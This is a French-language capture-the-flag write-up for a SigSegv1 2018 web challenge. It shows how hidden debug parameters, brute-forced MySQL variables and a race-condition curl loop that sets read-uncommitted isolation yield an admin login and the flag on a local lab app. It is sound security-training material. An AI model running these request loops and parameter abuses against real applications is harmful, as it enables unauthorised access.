 #  SigSegv1 CTF 2018

**Category:** Misc/Web |
**Points:** 500 |
**Solves:** 1 |
**Description:**

> LOL mon pote dit qu'il peut se connecter en tant qu'admin sur mon app.
> Je le crois pas, mais avant d'accepter son challenge, est-ce que tu peux vérifier que c'est bon stp ?

___

## TL;DR


The game. Si t'as pas le temps de lire, reviens demain.

## WRITE-UP

* __Première étape__ : découvrir le chall.

Tout d'abord, on voit que le challenge possède seulement 2 pages:<br>
\- Une page de création de compte (`/signUp`),<br>
\- Une page de login (`/signIn`).

Premier test que j'ai fait : essayer de créer un compte :

```
>>> curl -s http://localhost:8000/signUp -d 'inputName=admin&inputPassword=perte'
{"error": "(u'User creation has been disabled, changes have been canceled.',)"}
```

Well, la création d'utilisateur a été désactivée.
On se dit que le but, ça va être de faire en sorte de pouvoir créer l'utilisateur qu'on veut.


* __Deuxième étape__ : allumer son cerveau

En regardant un peu les deux pages, je vois des commentaires :

```
<!--
30/11/18 - added a stored procedure to add users

BEGIN
    IF (select exists (select 1 from tbl_user where login = p_login)) THEN
        select 'Username exists!';
    ELSE
        START TRANSACTION;
        insert into tbl_user
        (
            login,
            password
        )
        values
        (
            p_login,
            p_password
        );
    END IF;
END$$
DELIMITER ;

--------------------------------------------------------------------------------

01/12/18 - my friend told me not to store passwords as plaintext...
Removed everything from the database and disabled persistence of changes in db until I fix this.
-->


******************


<!--

30/11/18 - added secret form parameters debugVar and debugVal to help debug the app.

-->
```

Ici, il y a deux choses importantes :<br>
\- les 2 paramètres que l'on peut rajouter,<br>
\- le fait que l'admin a désactivé la persistance.

Le message est clair, il semblerait qu'il y ait un rollback qui soit fait.

En ayant ces informations, j'ai testé de faire une race condition en créant l'utilisateur `admin`,
puis me connecter directement juste après, avant que le rollback ne soit fait.
Mais dans ce cas, non seulement je ne me servais pas des paramètres donnés en commentaire, et puis
surtout ... ça ne fonctionnait pas :)




* __Troisième étape__ : utilisation des params + bruteforce

Ce step est assez simple.
J'ai récupéré une bonne partie des variables systèmes de MySQL : 
```
>>> curl -s 'https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html'| awk -F'[<>]' '/server-system.*class="literal/{!arr[$5]++}END{for (k in arr){print k}}' >> all_mysql_sysvar.lst
```

Ca fait une petite liste de presque 300 vars.
```
>>> curl -s http://localhost:8000/signIn -d 'inputName=admin&inputPassword=lel&debugVar=connect_timeout&debugVal=lel'
{"html": "<span>Forbidden variable name!</span>"}
```

Petite surprise, certaines sont interdites : j'ai donc "bruteforcé" pour connaître les vars autorisées.

```
>>> while read VAR; do curl -s http://localhost:8000/signIn -d "inputName=admin&inputPassword=lel&debugVar=$VAR&debugVal=lel" |grep -q Forbidden || echo $VAR ; done < all_mysql_sysvar.lst >> allowed_mysql_vars.lst
>>> wc -l allowed_mysql_vars.lst 
122 allowed_mysql_vars.lst
```

Bien, je me retrouve avec 122 variables à RTFM...
Avec l'idée du challenge, le `rollback`, ça permet de s'orienter vers certaines variables.


* __Dernière étape__ : payload + flag

Je vous invite à lire les liens suivants :
```
https://en.wikipedia.org/wiki/Isolation_(database_systems)
https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_transaction_isolation
https://inshallhack.org/production_debugging_sigsegv1_2018/
```

Le post de Siben sur inshallhack est génial, avec schématisation (wikipedia ©) des dirty reads.

Après avoir bien RTFM, il ne reste plus qu'à créer le payload.
Ce qu'il faut faire :<br>
\- Créer un user admin/admin,<br>
\- Instantanément, il faut directement faire lire à la DB les changements non commités :<br>
`transaction_isolation -> read-uncommitted`,<br>
\- Et on essaye de se connecter ensuite.

En BASH, ça donne simplement ça :

```
>>> while true ; do curl -s 'http://localhost:8000/signUp' --data 'inputName=admin&inputPassword=admin' & \
> curl -s 'http://localhost:8000/signIn' --data 'inputName=admin&inputPassword=admin&debugVar=transaction_isolation&debugVal=read-uncommitted' & \
> curl -s 'http://localhost:8000/signUp' --data 'inputName=admin&inputPassword=admin' ; done
```

Il suffit d'attendre un peu :

`{"gg": "GG! Flag: sigsegv{1s0l4t10n_mY_455}!"}`

* __Conclusion__ :

Un superbe challenge !
Personellement, j'avais jamais trop travaillé sur MySQL de façon approfondie, et j'ai appris
énormément de choses sur le fonctionnement d'une DB (MySQL).
Merci à toi SIben pour l'idée du challenge, de m'avoir fait confiance en me le faisant tester en
"avant-première", avant qu'il soit push sur le SigSev1 CTF.
Et surtout : the game.

Enjoy,<br>
\- [Notfound](https://twitter.com/Notfound404__)
